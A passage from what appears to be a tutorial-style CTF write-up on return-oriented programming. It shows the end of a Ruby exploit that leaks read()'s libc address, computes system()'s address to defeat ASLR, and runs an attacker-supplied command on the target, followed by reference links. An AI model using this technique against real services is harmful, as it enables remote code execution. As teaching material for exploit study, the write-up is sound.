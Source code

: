 ``` ruby
    read_addr_ptr, # address of read()'s .plt entry
    0,           # stdin
    pppr_addr,   # read()'s return address

    # pop/pop/pop/ret's stack frame
    read_addr,

    # write()'s stack frame
    # This frame gets the address of the read() function from the .plt
    # entry and writes to to stdout
    4,           # length of an address
    read_addr_ptr, # address of read()'s .plt entry
    1,           # stdout
    pppr_addr,   # retrurn address

    # pop/pop/pop/ret's stack frame
    write_addr,

    # read()'s stack frame
    # This reads the command we want to run from the socket and puts it
    # in our writable "buf"
    cmd.length,  # number of bytes
    buf,         # writable memory (cmd buf)
    0,           # stdin
    pppr_addr,   # read()'s return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Get the result of the first read() call, which is the actual address of read
this_read_addr = s.read(4).unpack("I").first

# Calculate the address of system()
this_system_addr = this_read_addr - read_system_diff

# Write the address back, where it'll be read() into the correct place by
# the second read() call
s.write([this_system_addr].pack("I"))

# Finally, read the result of the actual command
puts(s.read())

# Clean up
s.close()
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump